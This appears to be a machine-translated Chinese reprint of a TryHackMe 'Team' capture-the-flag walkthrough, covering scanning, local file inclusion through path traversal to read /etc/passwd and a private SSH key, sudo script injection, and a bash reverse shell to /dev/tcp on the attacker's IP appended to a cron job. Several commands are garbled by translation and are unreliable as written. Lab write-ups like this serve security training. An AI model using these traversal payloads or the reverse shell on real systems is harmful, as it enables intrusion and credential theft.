# 团队:TryHackMe 演练

> 原文：<https://infosecwriteups.com/team-tryhackme-walkthrough-4b77bb1b3dd2?source=collection_archive---------1----------------------->



大家好，我是苏迪帕·白朗塔卡。自从我上次走街串巷已经有一段时间了，因为我一直坚持我的大学生活。别担心，今天我在这里又写了一篇新文章。这是一个初学者友好的 boot2root 机器，但我认为这不仅仅是初学者友好。😉

连接 OpenVPN 后，我将机器部署到 tryhackme。如果你不知道如何设置 OpenVPN 配置，你可以到下面的 tryhackme 房间指导。

 [## TryHackMe | OpenVPN

### 使用 OpenVPN 连接到我们网络的指南。

www.tryhackme.com](https://www.tryhackme.com/room/openvpn) 

您可以使用 *ping* 命令来检查与目标的连接。



让我们从扫描机器开始。

*nmap-sV-sC-p--v-T4<target _ IP>*

在这里，我使用了版本检测，在第一个详细级别中使用默认脚本扫描目标上的所有端口。第一个详细将立即得到结果。



所以我们有三个开放的端口。我试图通过 FTP 匿名登录，但没有成功。



在进入 SSH 之前，让我们在端口 80 上尝试一下网站。因为我没有 ssh 登录的用户名或密码，盲目地强行登录不是一个好的做法。在端口 80 上我们有一些东西。这是 apache2 服务器的默认页面。



通过查看源代码，我在网站上找到了一些工作。我们应该将 team.thm 添加到我们的主机文件中。



通过*打开主机文件 sudo nano /etc/hosts*



然后进入浏览器，输入 team.thm。很好，我们得到了网站的主页。



然后，像往常一样，我用 Gobuster 进行目录强制，我尝试了这些目录，但我不能得到任何有趣的东西。一段时间后，它给我一些执行错误。那是个死胡同😒。



因为 Gobuster 需要很多时间，所以我手动检查了 robots.txt。那会给我起个名字叫“戴尔”。我把它记在笔记里作为用户名。



虽然我们无法从 Gobuster 中获得任何有趣的数据，但让我们用 *wfuzz* 工具*尝试一下子域枚举。Wfuzz 是一个为暴力 Web 应用程序设计的工具，它可以用于查找未链接的资源(目录、servlets、脚本等)，用于检查不同类型注入(SQL、XSS、LDAP 等)的暴力 GET 和 POST 参数，暴力表单参数(用户/密码)，模糊化等。*

 [## Wfuzz

### Wfuzz 是一个为开发 Web 应用程序而设计的工具，它可以用来查找没有链接的资源…

tools.kali.org](https://tools.kali.org/web-applications/wfuzz) 

作为单词列表，我使用 Seclists DNS 子域列表作为 fuzzer。

 [## 丹尼尔·米斯勒/塞克里斯特

### SecLists 是安全测试人员的伴侣。它是安全期间使用的多种类型列表的集合…

github.com](https://github.com/danielmiessler/SecLists) 

我们得到了名为“dev”的子域，让我们将它添加到我们的 hosts 文件中。



我们去看看德夫在演什么，酷！这是一个正在建设的网页。



在进入链接后，我意识到 web 应用程序通过查询参数传递请求，并猜测这可能容易受到本地文件包含(LFI)攻击。我强烈建议您找出更多关于这些攻击类型的信息，以提高您的知识水平。

 [## LFI 小抄

### LFI 代表本地文件包含-这是一个文件本地包含漏洞，允许攻击者包括文件…

highon .咖啡](https://highon.coffee/blog/lfi-cheat-sheet/) 

我使用 Burpsuite 捕获 web 流量，并检查路径遍历。遍历文件系统目录结构，暴露系统的敏感信息，这些信息可以帮助您获得外壳、用户名/密码等。我们可以使用 Bursuite 上的 Repeater 来更改 web 请求并一次又一次地发送它。



我们得到了包含用户名和密码的/etc/passwd。我们已经得到了用户名“dale ”,然后将请求更改如下，并发送给入侵者。我意识到设置狙击手会有助于获取一些信息。

[*/script.php？页面=../../../home/dale/user.txt*](http://dev.team.thm/script.php?page=../../../home/dale/user.txt)



当设置我使用的有效载荷时，在 SecLists 上可用的 wordlist 下面。

*sec lists/Fuzzing/LFI/LFI-graceful security-Linux . txt*



我们得到了 ssh/sshd_config 文件，让我们更改请求并再次发送它。

*/script.php？page=/etc/ssh/sshd_config*



有意思！我们找到了 dale 的私钥，我们可以用它作为 SSH 密钥，不用密码就可以登录到远程机器。

我复制了 RSA 私钥，我们需要保存 SSH 密钥并从文件中删除`#`。

不要忘记给这个键写权限。

*chmod 600 dale.key*

为了使用 ssh 密钥登录，我使用了以下命令。

*ssh-I dale . key dale @<target _ IP>*

列出目录后，您会发现任务的用户标志。



运行 sudo -l，我们看到我们可以在用户 Gyles 时运行特定的 bash 脚本



我们有两个变量，一个代表名字，另一个代表错误。但是我们不能使用$name 进行注入，因为它将 stats.txt 的输入保存在 var/stats 中。我将注入错误变量，因为我们看到该变量被直接传递给系统调用。



*sudo-u gyles/home/gyles/admin _ checks*



让我们看看目标中有哪些可用的组。



我们有 3 个用户组。首先，我检查了*编辑*组，但没有给出任何东西，然后我使用*管理*组，同时将所有错误消息发送到标准错误重定向(2 > /dev/null)。这里我放了一些供你知识提升的参考。

## [Linux 中的输入、输出和错误重定向](https://linuxhandbook.com/redirection-linux/)

*find/-type f-group admin 2>/dev/null*



我们得到了 backfile，我们可以看到这是一个 bash 脚本，它复制了一些备份。然后我决定在这个脚本中添加反向 shell，因为我知道有一个 cronjob 正在执行。当我想获得反向 shell 时，我总是参考 GTFOBins GitHub 页面，它有很多有趣的东西。

 [## 数控| GTFOBins

### 它可以向侦听攻击者发送反向外壳，以打开远程网络访问。它能把贝壳绑在…

gtfobins.github.io](https://gtfobins.github.io/gtfobins/nc/) 

*echo '/bin/bash-I>&/dev/TCP/<thm _ IP>/1234 0>&1 '>>/usr/local/bin/main _ backup . sh*



然后我开始 Netcat 监听端口 1234。

*nc -lvnp 1234*



嘣！我们找到了根。

最后作为结论，在 TryHackMe 上做这个房间时，我的盒子过期了，然后我不得不再次部署它。保持对房间过期和 VPN 连接的了解总是好的。所以，我认为这篇文章可以帮助你改进一些新的东西。谢谢，让我们来看看另一篇文章。注意安全，再见👋。

你可以在上找到我😊：

领英:【www.linkedin.com/in/sudeepashiranthaka 

中:[https://sudeepashiranthaka97.medium.com/](https://sudeepashiranthaka97.medium.com/)

推特:[https://twitter.com/sudeepashiran97](https://twitter.com/sudeepashiran97)